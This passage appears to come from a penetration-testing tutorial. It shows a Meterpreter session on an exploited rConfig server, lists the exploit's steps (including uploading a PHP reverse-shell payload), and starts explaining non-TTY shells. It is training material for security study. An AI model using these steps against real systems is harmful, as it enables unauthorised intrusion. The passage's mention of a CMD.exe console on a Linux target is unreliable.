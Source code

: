 ```shell
meterpreter > dir
Listing: /home/rconfig/www/images/vendor
========================================

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
100644/rw-r--r--  673   fil   2020-09-03 05:49:58 -0400  ajax-loader.gif
100644/rw-r--r--  1027  fil   2020-09-03 05:49:58 -0400  cisco.jpg
100644/rw-r--r--  1017  fil   2020-09-03 05:49:58 -0400  juniper.jpg

```

We can see from the steps outlined in the exploitation process that this exploit:

- Checks for the vulnerable version of rConfig
- Authenticates with the rConfig web login
- Uploads a PHP-based payload for a reverse shell connection
- Deletes the payload
- Leaves us with a Meterpreter shell session

#### Interact With the Shell

```shell

meterpreter > shell

Process 3958 created.
Channel 0 created.
dir
ajax-loader.gif  cisco.jpg  juniper.jpg
ls
ajax-loader.gif
cisco.jpg
juniper.jpg

```

We can drop into a system shell ( `shell`) to gain access to the target system as if we were logged in and open a CMD.exe console.

* * *

## Spawning a TTY Shell with Python

When we drop into the system shell, we notice that no prompt is present, yet we can still issue some system commands. This is a shell typically referred to as a `non-tty shell`. These shells have limited functionality and can often prevent our use of essential commands like `su` ( `switch user`) and `sudo` ( `super user do`), which we will likely need if we seek to escalate privileges. This happened because the payload was executed on the target by the apache user. Our session is established as the apache user. Normally, admins are not accessing the system as the apache user, so there is no need for a shell interpreter language to be defined in the environment variables associated with apache.
